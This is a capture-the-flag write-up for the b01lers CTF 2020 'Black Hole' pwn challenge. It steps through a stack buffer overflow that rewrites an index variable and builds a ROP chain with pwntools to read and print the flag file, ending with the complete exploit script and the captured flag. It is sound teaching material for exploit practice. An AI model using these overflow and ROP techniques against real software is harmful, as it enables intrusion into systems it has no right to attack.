 # b01lers CTF 2020

## Black Hole

> 200
> 
> Dave took a nap while flying home last Tuesday. When he woke up he was stuck. Save Dave
>
> `nc pwn.ctf.b01lers.com 1005`
>
> [9fb7f9675b14a3c60d143ee72c438f86](black-hole.tgz)
> 
> Note: Challenge is running in an Ubuntu 18.04 docker container.
>
> Author: nsnc


Tags: _pwn_

### Analysis

#### Decompile with Ghidra, cutter.re, r2, etc...

![](./black-hole1.png)

#### Checksec

```
[*] '/pwd/datajerk/b01lersctf/black-hole/black-hole'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Lines 11-16 do not limit input to 140 char (line 5) + _No stack canary found_ + _No PIE_ = **stack-based buffer overflow + ROP**.

#### More Decompiling

![](./black-hole2.png)

This looks both promising and useless at the same time.  `win` may read the flag, but it does not print it.  At least we know the name of the flag file.  Moving on...

#### Yet More Decompiling 

![](./black-hole3.png)

`readFile` will read the first `0x32` char of any file into an allocated buffer and then return a pointer (in `rax`) to that buffer.  This we can use.


### Exploit

#### Attack Plan

1. Overflow buffer to gain control of `rip`.  This will be a little trickier than a simple overflow to overwrite the base pointer and return address--`local_c` is in the way.
2. Set return address with a `pop rdi; ret` gadget to pop the address of `./flag.txt` into `rdi`.
3. Set #2's return address with `black-hole`'s `readFile` function.  `rdx` will have the address of the buffer holding the flag.
4. Set #3's return address with `mov rdi, rdx; call puts`.
5. Send payload, get the flag.


#### Overflow buffer to gain control of `rip`

```
  char local_98 [140];
  int local_c;
  
  ...
  
  local_c = 0;
  read(0,local_98,1);
  while (local_98[local_c] != '\n') {
    local_c = local_c + 1;
    read(0,local_98 + local_c,1);
  }
  local_98[local_c] = '\0';
```

The above loop reads one char at a time unless that char is a `\n`.  There are no other conditions to prevent a stack-based overflow.  However, `local_c` _is_ in the way.

```
#!/usr/bin/env python

from pwn import *
import sys

### overload buffer
payload = 140 * 'A'
payload += p8(151)
```

After writing 140 `A`s we need to consider what will happen to `local_c`, `local_c` is next in the stack as a 32-bit `int`.  Writing `151` will change the value to, well, `151`.  On the next pass of the loop `local_c` will be incremented to `152` and continue to accept our input.  There's no need to write out any zeros since `local_c` was initialized to `0x00000000` at the start of the loop.

**_Why 151?_**

```
Stack:
AAAAAAAA <= 0-7
...
AAAAAAAA <= 135
AAAA0000 <= 143
BBBBBBBB <= 151 Base Pointer
RRRRRRRR        Return Address
```

The 140 char buffer and 4 byte int (0-143) are just above the base pointer and the return address, by setting `local_c` to `151` at the `140` iteration we're moving the next read to `152` (`local_c` is incremented by one before the read).

The other option is `143`, and then 8 bytes to overwrite the base pointer.  Either will do, the difference will be a SIGSEGV vs. SIGBUS.  I'm not going to tell you how to live your life.


#### Set return address with a `pop rdi; ret` gadget, then address of `./flag.txt`

```
### find and add pop rdi gadget
context.clear(arch='amd64')
rop = ROP('black-hole')
try:
    rop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)
payload += p64(rop_rdi)
```

With `local_c` set to 151 the next 8 bytes written to the stack will overwrite the return address of `main`.  The above will find a ROP gadget that will pop the next stack item into `rdi` and then return (a.k.a pop the next item off the stack into `rip`).

We need this gadget to load `rdi` with the address to the text `./flag.txt` from the binary, so add that to the stack next:

```
### find location of ./flag.txt
binary = ELF('black-hole')
flag_txt = next(binary.search('./flag.txt'))
payload += p64(flag_txt)
```

#### Call `black-hole`'s `readFile` function and return pointer into `rax`

```
### readFile with pointer in rax
readFile = binary.symbols['readFile']
payload += p64(readFile)
```

Since _No PIE_, finding location with _search_ and _symbols_ is pretty trivial.

At this point in the payload `rop rdi; ret` will load up `rdi` with the `./flag.txt` string address and then call `readFile` returning the address to the flag contents in `rax`.  All that is left is to print it.


#### Set return address with `mov rdi, rdx; call puts`

Most code should have a `puts` statement or two.  Even if the coder used all `printf`, a `printf` with a static string will be optimized to `puts`.

We just need to find one:

```
# objdump -M intel -d black-hole | grep -B1 puts

0000000000400730 <puts@plt>:
  400730:	ff 25 f2 18 20 00    	jmp    QWORD PTR [rip+0x2018f2]        # 602028 <puts@GLIBC_2.2.5>
--
  4009bc:	48 8d 3d 3f 04 00 00 	lea    rdi,[rip+0x43f]        # 400e02 <_IO_stdin_used+0x22>
  4009c3:	e8 68 fd ff ff       	call   400730 <puts@plt>
--
  400a60:	48 8d 3d c7 03 00 00 	lea    rdi,[rip+0x3c7]        # 400e2e <_IO_stdin_used+0x4e>
  400a67:	e8 c4 fc ff ff       	call   400730 <puts@plt>
--
  400bd0:	48 89 c7             	mov    rdi,rax
  400bd3:	e8 58 fb ff ff       	call   400730 <puts@plt>
```

`0x400bd0` looks like exactly what we need.  Load `rdi` with the value from `rax` (pointer to flag text) and call `puts`:

```
payload += p64(0x400bd0)
```

#### Send payload, get flag

```
### get the flag
#p = process('./black-hole')
p = remote('pwn.ctf.b01lers.com',1005)
p.recvuntil('Name: ')
p.sendline(payload)
p.recvuntil('> ')
for i in range(8):
    p.sendline('d')

### let it all out man
p.stream()
```

The "game" prompts you for your name, that is where we send our payload to overload the stack, then we need to _lose_ the game to _win_ the game.  To do that we need to send 8 `d`s (only `a` and `d` does anything, read the code, play the game).

Output:

```
Throttle: 3
Gravity: 17
O     =>                                           |
> You lose AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb8!
Sorry, you died!
pctf{th1s_l1ttle_man0uver_just_c0st_us_51_y34r5}
```

Flag: `pctf{th1s_l1ttle_man0uver_just_c0st_us_51_y34r5}`


